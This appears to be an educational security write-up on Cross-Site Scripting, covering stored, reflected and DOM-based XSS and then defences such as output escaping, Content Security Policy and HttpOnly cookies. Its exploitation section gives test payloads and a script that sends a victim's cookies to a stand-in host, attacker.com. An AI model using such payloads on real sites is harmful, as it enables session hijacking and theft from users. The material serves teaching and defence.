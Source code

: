 # [Severity 7] Cross-Site Scripting (XSS)

## Description
Cross-Site Scripting (XSS) is a client-side vulnerability where an attacker injects malicious scripts into a web page viewed by other users. This can lead to session hijacking, defacement, redirection to malicious websites, or data theft. XSS occurs when user-supplied input is included in the page's output without proper validation or encoding, allowing JavaScript, HTML, or other executable code to be injected.

There are three main types of XSS:
- **Stored (Persistent) XSS**: Malicious scripts are stored on the server (e.g., in a database) and executed whenever a user accesses the affected page.
- **Reflected (Non-Persistent) XSS**: Scripts are injected into a URL or form and only executed when a user follows the malicious link or submits the form.
- **DOM-based XSS**: Scripts are executed as a result of modifying the Document Object Model (DOM) in the browser, without direct involvement from the server.

---

## Exploitation Method

### 1. Identify Input Fields for Injection
- **Goal**: Locate input fields on the web page (such as search bars, comment sections, contact forms, or any field that reflects input back onto the page) where JavaScript can potentially be injected and executed.
- **Common Signs**: If you see user input being displayed without modification (e.g., directly echoed in comments), it may be vulnerable to XSS.

**Example**:
In a comment section, try injecting a simple payload like `<script>alert('XSS')</script>`. If you see an alert pop up, this indicates a potential XSS vulnerability, as the script was executed by the browser.

---

### 2. Stored XSS vs. Reflected XSS

#### Stored (Persistent) XSS:
- In stored XSS, the injected code is stored on the server and executed every time the page is loaded.
- **Example**: In a forum post, if an attacker enters `<script>alert('XSS')</script>`, this code could be stored in the database and executed for every user who views that post. Attackers could replace the alert with malicious code that steals cookies, performs redirects, or injects fake forms for credential harvesting.

#### Reflected (Non-Persistent) XSS:
- Reflected XSS occurs when the injected code is included in the page response (usually via the URL). This type of attack is often delivered through phishing links.
- **Example**: An attacker could craft a URL like `https://example.com/search?query=<script>alert('XSS')</script>` and send it to a victim. When the victim clicks the link, the alert code is executed in their browser if the application is vulnerable.

---

### 3. Stealing Cookies and Sensitive Data
- **Goal**: Use JavaScript to steal sensitive information (such as session cookies) that could be used for session hijacking, allowing the attacker to impersonate the user.
- **How to Execute**: Replace the alert function with a script that sends data to the attacker's server.

**Example**:
```html
       <script>
       // Sends the user's cookies to a malicious server
       var img = new Image();
       img.src = "http://attacker.com/steal?cookie=" + document.cookie;
      </script>
```
# Explanation
This code creates an image request to the attacker's server (attacker.com), passing along the victim's cookies as parameters in the URL. If the user is logged in, the cookie might contain a session ID or other sensitive data that can be used for hijacking.

---

## Mitigation Techniques
To protect against XSS, a layered approach is recommended, combining input validation, output encoding, and security headers.

### 1. Sanitize and Validate User Input
- **Why**: Prevent harmful characters from being input into your application in the first place.
- **How**: Strip or replace HTML tags, JavaScript code, and other potentially dangerous content from user input. Avoid blacklisting specific characters and instead whitelist only safe content (such as plain text or limited HTML tags if necessary).
- **Example**: For a comment input, remove tags or limit allowed characters to alphanumeric, punctuation, etc., to avoid code injection.

### 2. Escape HTML Special Characters
- **Why**: Prevent malicious input from being interpreted as HTML or JavaScript.
- **How**: Ensure that characters such as `<`, `>`, `"`, and `&` are converted to their HTML entities (`&lt;`, `&gt;`, `&quot;`, and `&amp;`) when displaying user input.
- **Example**: If a user enters `<script>alert('XSS')</script>`, it should be displayed as `&lt;script&gt;alert('XSS')&lt;/script&gt;`, preventing it from being executed.

### 3. Implement Content Security Policy (CSP)
- **Why**: CSP allows you to control the sources from which scripts, images, styles, and other resources can be loaded, significantly reducing the impact of XSS.
- **How**: Configure a CSP header to restrict JavaScript execution to specific, trusted domains.
- **Example**: A CSP header that only allows JavaScript from `self` and `trusted.com`:
    ```http
    Content-Security-Policy: default-src 'self'; script-src 'self' https://trusted.com
    ```
- **Note**: CSP can be a complex but highly effective tool, as it limits which domains can execute code, even if the attacker manages to inject a script.

### 4. Use HTTP-Only and Secure Cookies
- **Why**: Prevent cookies from being accessed via JavaScript, reducing the risk of session hijacking if XSS is present.
- **How**: Set cookies with the `HttpOnly` and `Secure` flags. `HttpOnly` prevents JavaScript from accessing cookies, and `Secure` ensures they are only sent over HTTPS.
- **Example**: In server-side code, you might set a cookie like this:
    ```javascript
    Set-Cookie: sessionId=abc123; HttpOnly; Secure;
    ```

### 5. Employ JavaScript Libraries with Built-In XSS Protection
- **Why**: Some frameworks have strong protections against XSS vulnerabilities by design.
- **Examples**:
  - *ReactJS and VueJS*: Escape user inputs by default, reducing the risk of XSS unless developers explicitly choose to bypass this behavior.
  - *AngularJS*: Enforces a security policy where dangerous code is treated as unsafe by default, making it harder for XSS vulnerabilities to occur.
